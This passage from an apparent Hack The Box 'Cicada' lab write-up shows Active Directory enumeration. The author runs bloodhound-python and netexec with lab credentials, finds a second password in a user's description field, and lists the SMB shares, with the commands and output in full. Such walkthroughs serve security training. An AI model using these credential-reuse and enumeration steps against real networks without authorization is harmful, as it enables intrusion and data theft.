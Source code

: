 And a working set of credentials: `CICADA\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

### Bloodhound

Let's use our new credentials and take a look at the domain structure.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ bloodhound-python -c all -d cicada.htb -ns 10.129.84.61 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CICADA-DC.cicada.htb
INFO: Done in 00M 05S
```

Looking at the properties for the domain users, I found something very helpful in the "Description" for `david.orelious`.

![cicada1](/images/cicada1.png)

Now we have another credential: `CICADA\david.orelious:aRt$Lp#7t*VQ!3`

### SMB (DEV)

Using the `david.orelious` credentials, we now have access to the `DEV` SMB share.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ netexec smb 10.129.84.61 -d cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.84.61    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.84.61    445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.84.61    445    CICADA-DC        [*] Enumerated shares
SMB         10.129.84.61    445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.84.61    445    CICADA-DC        -----           -----------     ------
SMB         10.129.84.61    445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.84.61    445    CICADA-DC        C$                              Default share
SMB         10.129.84.61    445    CICADA-DC        DEV             READ            
SMB         10.129.84.61    445    CICADA-DC        HR              READ            
SMB         10.129.84.61    445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.84.61    445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.84.61    445    CICADA-DC        SYSVOL          READ            Logon server share
```

